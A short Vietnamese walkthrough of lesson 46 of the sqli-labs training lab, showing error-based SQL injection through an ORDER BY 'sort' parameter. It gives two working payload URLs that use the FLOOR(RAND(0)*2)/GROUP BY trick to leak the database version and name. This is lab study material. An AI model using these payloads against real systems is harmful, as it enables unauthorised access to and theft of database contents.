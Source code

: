 # Những việc làm được với lesson-46
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-46

![](../images/lesson46/screen_1.png)

Ta nhập giá trị sort vào 

![](../images/lesson46/screen.png)

![](../images/lesson46/screen_2.png)

Ta thấy rằng ở đây nó hiển thị theo group by thay đổi từ theo thứ tự cột một sang theo thứ tự ở cột 2. Đây không phải câu select theo điều kiện where nữa. Vì đây là select và sắp xếp theo cái gì thế nên ta không thể sử dụng union được nữa. 

1. Error base 
- Ta nhập các ký tự đặc biệt vào 

![](../images/lesson46/screen_3.png)

Ta sẽ sử dụng error base để làm bài này 

```
192.168.80.225/sqli-labs/Less-46/?sort=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

Tương tự ta sử dụng thêm câu lệnh và thay select vào để  biết được dữ liệu bên trong DB 

```
192.168.80.225/sqli-labs/Less-46/?sort=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson46/screen_4.png)
